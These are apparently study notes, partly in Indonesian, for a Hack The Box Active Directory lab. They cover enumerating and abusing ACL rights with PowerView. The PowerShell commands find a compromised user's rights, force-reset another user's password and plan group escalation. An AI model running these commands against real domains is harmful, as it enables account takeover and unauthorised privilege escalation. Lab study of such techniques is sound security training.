 ```yaml
---
layout: default
---
```


### ACL Enumeration With Powerview
In this section we use scenarion that:
1. we have compromise user with username wley
2. User wley has Force Change Password Object to User damundsen
3. Login as damundsen with the password that we create,
4. Enumerate this user has Generic Write rights to Help Desk Level 1 Groups
5. Adding ourself (damundsen) as member of HELP DESK IT LEVEL 1

# ACL - Force Change Password
```python
	
- ForceChangePassword:  abused with Set-DomainUserPassword
- Add Members:  abused with Add-DomainGroupMember
- GenericAll:  abused with Set-DomainUserPassword or Add-DomainGroupMember
- GenericWrite:  abused with Set-DomainObject
- WriteOwner:  abused with Set-DomainObjectOwner
- WriteDACL:  abused with Add-DomainObjectACL
- AllExtendedRights:  abused with Set-DomainUserPassword or Add-DomainGroupMember
- Addself:  abused with Add-DomainGroupMember
```
   
### Enumerate ForceChangePassword Right

```python
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}

##output Yang Diharapkan
ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : User-Force-Change-Password
```

*Enumerate All Users* 
```python
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}

```

## Abusing Force Change Password
**changing damundsen password without knowing his old password**

First, Store Password user kita ke powershell credential
   
```python
   PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD Kita >' -AsPlainText -Force
   PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

Then, Kemudian create password dari user target (eg disini user damundsen yang bisa kita ganti)
```python
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
 

